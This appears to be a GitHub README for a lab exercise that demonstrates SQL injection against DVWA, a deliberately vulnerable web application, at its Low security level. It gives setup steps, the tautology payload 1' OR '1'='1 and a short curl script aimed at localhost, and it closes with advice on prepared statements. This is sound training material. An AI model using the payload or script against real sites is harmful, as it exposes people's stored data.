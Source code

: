 # SQL-Injection-on-DVWA-Low-Security

## What is DVWA?

**DVWA (Damn Vulnerable Web Application)** is a PHP/MySQL web application that is intentionally built with vulnerabilities. It is widely used for:

- Learning about common web security issues like SQL Injection, XSS, CSRF, etc.
- Practicing ethical hacking and penetration testing in a safe environment.
- Demonstrating how different security levels affect exploitation (Low, Medium, High, Impossible).

In this task, we use **DVWA's SQL Injection vulnerability (Low Security)** to simulate how attackers can extract data from an insecure web application.

> DVWA is for educational purposes only and should only be run in a **local or controlled environment**.

---

## Objective
Demonstrate how SQL Injection works on a vulnerable web application using DVWA (Damn Vulnerable Web Application) with the security level set to **Low**.

---

## 🛠Tools Used
- DVWA (Damn Vulnerable Web Application)
- Kali Linux / XAMPP
- Web Browser (for manual testing)
- Optional: `curl` (for simulation in shell script)

---

## ⚙Setup Instructions

1. **Install DVWA** on your local machine or VM:
   ```bash
   sudo apt update
   sudo apt install apache2 mariadb-server php php-mysqli git
   git clone https://github.com/digininja/DVWA.git /var/www/html/dvwa
   sudo service apache2 start
   sudo service mysql start
   ```

2. **Configure the database**:
   - Edit: `/var/www/html/dvwa/config/config.inc.php`
   - Set DB credentials and `allow_url_include`

3. **Access DVWA**:
   - Open `http://localhost/dvwa`
   - Click on "Create / Reset Database"

4. **Set Security Level**:
   - Navigate to the **DVWA Security** tab
   - Set **Security Level** to `Low`

---

## Performing SQL Injection

1. Go to the **SQL Injection** module:
   ```
   http://localhost/dvwa/vulnerabilities/sqli/
   ```

2. Enter the following payload in the ID field:
   ```
   1' OR '1'='1
   ```

3. Click **Submit**.

4. **Result**: The page displays all user records from the database. This confirms a successful SQL injection.

---

## Screenshots

- `sqli_payload_entry.png`: Shows the injection payload input.
- `sqli_results_output.png`: Displays the extracted user data.

---

## Vulnerability Explanation

- DVWA directly places user input into an SQL query without validation.
- Payload like `' OR '1'='1` always returns true and bypasses logic.
- This leads to exposure of **all database records**, showing how unvalidated input leads to full compromise.

---

## Script Used (Optional)

The following script simulates an injection attempt using `curl`:

```bash
#!/bin/bash
# sql_injection_exploit.sh

URL="http://localhost/dvwa/vulnerabilities/sqli/"
PAYLOAD="id=1' OR '1'='1&Submit=Submit"

curl -X GET "$URL?$PAYLOAD"
```

> Note: You must be logged in and have a valid session/cookie.

---

## Demo Video Idea

**Title**: Exploiting SQL Injection in DVWA (Low Security)

**Steps to record**:
1. Launch DVWA
2. Set security level to **Low**
3. Perform the SQL Injection
4. Explain how the payload bypasses security
5. Show output of exposed data

---

## Conclusion

This task proves how dangerous SQL injection can be when input validation is ignored. Even on a low-security test app like DVWA, attackers can easily retrieve sensitive information using basic logic injection.

**Always use input sanitization, validation, and prepared statements.**
